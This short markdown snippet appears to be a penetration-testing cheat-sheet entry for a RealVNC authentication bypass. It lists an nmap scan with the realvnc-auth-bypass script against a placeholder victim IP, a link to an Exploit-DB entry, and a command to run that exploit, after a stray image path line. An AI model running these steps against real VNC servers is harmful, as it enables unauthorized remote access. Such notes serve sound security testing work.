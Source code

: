 ### nmap
- nmap -sV -script realvnc-auth-bypass.nse [victim_ip] -p 5900

##### exploit
- https://www.exploit-db.com/exploits/36932

##### exploitation
- python 36932.py 
